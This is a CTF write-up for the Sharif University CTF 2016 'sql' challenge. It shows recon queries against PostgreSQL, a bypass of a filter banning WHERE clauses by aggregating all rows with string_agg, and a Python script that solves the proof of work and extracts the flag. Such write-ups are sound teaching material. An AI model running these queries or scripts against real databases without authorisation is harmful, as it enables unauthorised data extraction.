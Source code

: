 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: sql (pwn 150)"
author: f0rki
categories: writeup
---
```


* **Category:** pwn
* **Points:** 150
* **Description:**

> Our website http://ctf.sharif.edu:36455/chal/sql/ executes your PostgreSQL
> queries. And flags are nicely formatted.

## Write-up

We were presented with a simple form for a SQL query string and were given a
proof of work challenge. Apparently we can execute arbitrary SQL queries if we
can compute the proof of work. As it turns out there wasn't more to do than
this. I really don't know why this was categorized as `pwn`, because it really
is a `web` challenge.

Step 1 was to copy-paste proof of work code from a past CTF. We can then submit
arbitrary queries and are only restricted by the permissions of the database
user. The organizers were so nice and told us it is PostgreSQL. So first some
recon queries:

```
sql> select version()
PostgreSQL 9.4.5 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.9.2-10ubuntu13) 4.9.2, 64-bit

sql> SELECT current_database()
sql_limit_ctf_question

sql> select * from information_schema.tables
sql_limit_ctf_question | pg_catalog | pg_type  | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | messages | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | mydata   | BASE TABLE |||| YES | NO |

sql> select count(*) from mydata
0

sql> select count(*) from messages
100000

sql> select count( distinct msg) from messages
96519

sql> select * from messages
```

We only receive the first 3 rows from the output. And messages seems to be
filled with some random garbage. The description mentioned that the flag is
nicely formatted. So maybe one of the messages contains the flag.

```
sql> select * from messages where msg like 'Sharif%'
Search is not allowed.
```

So apparently our current database user isn't allowed to put `where` into
queries. That makes it kind of hard to retrieve the messages. We could fetch
all the rows, three at a time with

```
select * from messages limit 3 offset X
```

But this would take ages, because we have to compute the proof of work. So
there has to be another way. After a little bit of googling I found the
interesting function: `string_agag`. This function allows us to concatenate all
fields from a query into a single string. With the following query we can fetch
all messages, separated by a `, `.

```
select string_agg(msg, ', ') from messages
```

Now it was just a matter of search for the flag and it turns out we got lucky
:) We used the following python script to compute the proof of work, send
queries and fetch the flag:


```python
import requests
import re
import os
import hashlib
import sys
from pwn import log

URL = "http://ctf.sharif.edu:36455/chal/sql/"
NONCERE = re.compile("Nonce: ([a-zA-Z0-9]+) ")
FLAGRE = re.compile("[sS]harif[cC][tT][fF]{.+}")


def proof_of_work(chal, rlen=30, forbidden_chars="", hashfunc=hashlib.sha1):
    i = 0
    maxiter = 2 ** 28
    while i < maxiter:
        i += 1
        s = os.urandom(rlen)
        for c in forbidden_chars:
            s = s.replace(c, "")
        h = hashfunc()
        h.update(s)
        h.update(chal)
        digest = h.hexdigest()
        if digest.startswith("00000"):
            log.info("found proof of work after {} iterations"
                     .format(i))
            return s
    log.critical("couldn't find matching proof of work after {} iterations"
                 .format(i))
    return None


def run_query(query):
    log.info("Running query:\n{}".format(repr(query)))
    s = requests.session()
    resp = s.get(URL)
    m = NONCERE.search(resp.text)
    if not m:
        print("Received:")
        print(resp.text)
        raise Exception("No nonce found in response!")
    nonce = m.groups()[0]
    log.info("got nonce '{}', computing proof of work".format(nonce))
    pofw = proof_of_work(nonce)
    if not pofw:
        return None
    log.info
    resp = s.post(URL, data={"pow": pofw, "sql": query})
    return resp.text


if __name__ == "__main__":
    #r = run_query("SELECT version()")
    #log.info("received:\n" + str(r))
    if len(sys.argv) > 1:
        for i, q in enumerate(sys.argv[1:]):
            r = run_query(q)
            log.info("received:\n" + str(r))
            if r:
                fname = "output{}.html".format(i)
                log.info("Writing response to " + fname)
                with open(fname, "w") as f:
                    f.write(str(r))

    log.info("Now fetching flag:")
    res = run_query("select string_agg(msg, ', ') from messages")
    for flagcandidate in FLAGRE.findall(res):
        log.info(flagcandidate)

```

Running the script:

```
[*] Now fetching flag:
[*] Running query:
    "select string_agg(msg, ', ') from messages"
[*] got nonce 'c41bcb2185', computing proof of work
[*] found proof of work after 354166 iterations
[*] SharifCTF{f1c16ea7b34877811e4662101b6a0d30}
```

